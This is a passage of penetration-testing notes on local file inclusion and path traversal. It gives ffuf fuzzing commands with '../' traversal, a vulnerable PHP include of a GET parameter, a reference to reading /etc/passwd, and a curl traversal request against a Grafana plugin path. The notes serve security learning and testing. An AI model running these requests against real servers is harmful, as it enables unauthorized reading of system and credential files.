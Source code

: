 ### Fuzzing Server Files

#### Webroot

To fuzz for index.php use [wordlist for Linux ](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt)or [wordlist for windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt) Depending on our LFI situation, we may need to add a few back directories (e.g. ../../../../), and then add our index.php afterwords. Example:

```
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287
```

Can also use this [wordlist](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt)

#### Server Logs & Configs

Can use the same [wordlist](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt)or [wordlist for Linux ](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt)or [wordlist for windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt) Example:

```
ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287
```

## Path traversal

_When filenames are used as parameters pay close attention_ Example:

```
https://example.com/cms/login.php?language=en.html
```

We can see that en.html is being loaded which means that we can try to access it directly:

```
https://example.com/cms/en.html
```

Absolute path like `/etc/passwd` can be used if the whole input used without any addition

```php
include($_GET['language']);
```

_Linux:_ `../` or `.?/.*/.?/` _Windows:_ `..\` or `../` in some cases

* Example in grafana:&#x20;

```
curl --path-as-is http://192.168.163.193:3000/public/plugins/alertlist/../../../../../../../../Windows/System32/Drivers/etc/hosts
```
